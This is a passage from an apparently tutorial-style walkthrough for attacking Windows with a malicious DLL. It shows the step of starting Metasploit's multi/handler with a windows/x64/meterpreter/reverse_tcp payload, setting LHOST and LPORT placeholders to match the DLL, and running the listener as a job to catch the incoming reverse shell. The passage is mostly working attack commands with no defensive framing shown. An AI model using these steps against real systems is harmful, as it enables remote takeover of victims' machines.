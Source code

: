 - Then we need to fire up metasploit to configure the handler to receive the incoming connection from the malicious DLL. 
  
![msfconsole](/assets/img/msfconsole.png)

Run the following commands options:
 
 - `use exploit/multi/handler`
 - `set payload windows/x64/meterpreter/reverse_tcp`
 - `set lhost {your-ip-address}`
 - `set lport {port}`

**Note**: The value for **LHOST** and **LPORT** must be the same values you used to create the malicious DLL.

![configure](/assets/img/configure.png)

- Then we run it to actively wait for a connection. use `run -j` to initiate it. The `-j` simply means to run it as a job.
